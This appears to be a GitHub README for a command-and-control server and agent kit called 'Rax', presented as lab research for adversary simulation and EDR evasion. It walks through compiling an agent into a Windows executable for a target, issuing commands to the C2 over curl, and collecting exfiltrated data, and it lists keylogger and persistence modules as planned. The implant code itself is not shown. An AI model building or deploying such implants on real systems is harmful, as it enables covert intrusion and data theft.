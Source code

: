 <h1> Rax : C2 Server </h1>


A compact C2 (Command-and-Control) server and Agent deployment package for advanced cybersecurity research that can be done cost-effectively using open-source tools and virtualization, reviewing and implementing protocol design, encryption and evasion technique. Here’s a full step-by-step breakdown, tailored for realistic adversary simulation and EDR evasion research.

<h2> ⚙️ GOAL </h2>

Build a custom C2 framework that:
- Runs in a VM/lab setup
- Supports multiple agents (Windows/Linux)
- Has encrypted communication
- Offers modular payloads, execution, and exfiltration
- Avoids cloud or paid infrastructure

<br>


<h2> 🔨 1. Set Up the C2 Host (on Kali or Ubuntu VM) </h2>

```bash

sudo apt update && sudo apt install python3 python3-pip git

mkdir ~/RaxC2
cd ~/RaxC2

```

<br>


<h2> 🧠 2. Design Architecture </h2>

```perl

RaxC2/
├── server.py       # Flask + SocketIO
├── agent.py        # Implants/agents to run on targets
├── modules/        # Payload modules & features
├── logs/
└── keys/

```
```bash
mkdir -p logs keys modules
touch server.py agent.py
```

<br>


<h2> 🖥️ 3. Basic C2 Server Template (server.py) </h2>

Use the server.py file with the repo.

<br>


<h2> 🧬 4. Sample Agent Implant (agent.py for Windows/Linux) </h2>

Use the agent.py file with the repo.

<br>

<h2> 🔐 5. Generate SSL Certs </h2>

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

<br>


<h2> 🧪 6. Testing on Target </h2>

- Deploy agent.exe (compiled) on Windows VM.
```bash
pip install pyinstaller
pyinstaller --onefile agent.py

⚠️ Transfer the compiled agent.exe to the Windows target machine and execute it.
```
- Run C2 (python3 server.py) and issue commands.
```bash

python3 -m venv RaxC2-venv
RaxC2-venv/bin/pip install flask flask-socketio cryptography requests pyfiglet
RaxC2-venv/bin/python3 server.py

```  
- Exfiltrated data appears in the server console or saved logs. 

<br>

<h2>🔹 How to Send Commands </h2>
Current stage:

- Hardcoded test code - ✅
- Curl based json request – ✅

Advanced - feature development ⚠️ : Create an admin console that sends commands

```bash
curl -X POST https://<C2-IP>:5000/send -H "Content-Type: application/json" -d '{"cmd": "whoami"}'

```

<br>

<h2> 🔧 Extend Functionality </h2>

- modules/screenshot.py: take screenshot and send back   :  Feature to add ⚠️
- modules/keylogger.py: live keystroke capture           :  Feature to add ⚠️
- modules/persistence.py: registry or startup hijacks    :  Feature to add ⚠️ 

<br>


<h2> 🧰 VM Setup Tips </h2>

- Kali/Ubuntu (for C2)
- Windows 11 with Entra ID and EDR (for agent testing)
- Use NAT or Host-only Adapter for isolation
- Use Fakenet-NG or Wireshark for traffic monitoring
- Use snapshots before malware testing

